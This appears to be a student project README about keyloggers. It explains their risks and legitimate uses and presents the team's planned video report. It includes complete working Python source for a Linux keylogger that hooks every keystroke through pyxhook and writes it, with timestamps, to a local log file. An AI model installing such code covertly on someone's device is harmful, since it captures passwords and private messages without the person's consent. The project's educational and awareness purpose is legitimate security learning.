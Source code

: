 # Keymaster
Key-Master 🔐: Creating & Understanding Keyloggers 
By NLOX
Luis Calderon, Nicole Iovino, O'Shayia Langston. and Xiong Zheng

Report Overview 🗒️

Keyloggers, or keystroke loggers, are tools that record what a person types on a device. Because keyloggers can record and quickly identify sensitive information, they are a significant threat to cybersecurity. To protect yourself, it’s important to know what keyloggers are, how to prevent an attack and how to remove a keylogger if you are attacked. In an attempt to better understand keyloggers the team at NLOX has researched and created our own simple keylogger, for educational purposes, and will outline the process in this report. 

Q1: The Problem / Opportunity 🎯

This report will detail what a keylogger is, how to create one, how it can be used by ethical / unethical hackers, and how to protect yourself/remove a keylogger should you suspect you have one.

Q2: Target Audience 👫

Students, employees, and lay persons (in order to protect yourself from threats its always best to understand how they work and operate).
Parents (who may use keyloggers as a form of parental control).
Information technology departments (can use keylogger software to troubleshoot issues on a device).
Companies outside of the tech space (keylogger software is often used as part of employee monitoring software to help track employee productivity).

Q3: The Hypothesis / Relevance📒

At NLOX we believe:

IF we create more awareness of keyloggers and their uses

⬇️

THEN we can better protect individuals and organizations against keylogging attacks

⬇️

BECAUSE 82% of breaches involve a human element, so even basic knowledge is crucial to limiting and preventing these types of attacks. 

With access to your personal information, malicious users can cause a lot of damage. It’s therefore important to protect yourself from keyloggers so you don’t become a victim. You can reduce the likelihood of an attack by learning what behaviors can make you vulnerable to keylogger attacks and what precautions can be taken. According to Verizon’s 2022 Data Breach Investigations Report, 82% of breaches involve a human element. By being aware of the dangers, you can bolster your cybersecurity in order to better protect yourself / your organization against keylogger attacks. This is why our team at NLOX found it so vital to create our own keylogger as a way to better understand its uses and threat potential. 

Q4: Supportive Data/Source Code 📊

Our presentation will not only go into detail on what a keylogger is but we will also demonstrate how to create one (image 2) and how it functions (image 1). Below you will find images of the script we created to make our own keylogger. This script is designed to only work and save a "log file" to the host machine and is intended to be used like a parental control for informative purposes only. *This process will be further elaborated on in our video presentation.
We also intend to conduct extensive research on keyloggers usage in past known attacks such as "Darkhotel". a well-known keylogger malware attack that targeted unsecure Wi-Fi at hotels. While also making sure the presentation demonstrates the ethical uses of keyloggers.

Source Code:
#! /usr/bin/env python3
import os
import logging
import pyxhook
# Set the path to the log file, using the pylogger_file environment variable if available
# Otherwise, use the default path ~/Desktop/file.log
log_file = os.environ.get('pylogger_file', os.path.expanduser('~/Desktop/file.log'))
# Set the log format to include the timestamp, and specify the format of the timestamp
log_format = '%(asctime)s - %(message)s'
datefmt = '%Y:%m:%d %H:%M:%S'
# Configure the logging module with the log file path, log level, and log format
logging.basicConfig(filename=log_file, level=logging.INFO, format=log_format, datefmt=datefmt)
# This function will be called every time a key is pressed, and will log the key that was pressed
def OnKeyPress(event):
    logging.info(event.Key)
# Create an instance of the HookManager class from pyxhook
new_hook = pyxhook.HookManager()
# Set the KeyDown event to trigger the OnKeyPress function
new_hook.KeyDown = OnKeyPress
# Start the keylogger by calling HookKeyboard() on the HookManager instance
new_hook.HookKeyboard()
# Enter the event listener loop, which will keep the program running until it is stopped
new_hook.start()


Q5: The Result 🧩

Our end will result will be an informative video presentation outlining our research. The presentation will outline our research on keyloggers. the steps we took to create our own, uses of keyloggers, and actions one can take against keyloggers. Roles: Nicole Iovino (Group Leader, Video editor), Luis Calderon (Scripting Examples Presentation), O'Shayia Langston (Ethical Uses of Keylogger), Xiong Zheng (Malware/Unethical Uses). Each team member will have a slide presenting a part of our groups overall research and created tools. The video will be between 3:00 - 5:00 minutes in length and displayed to our fellow classmates upon graduation.


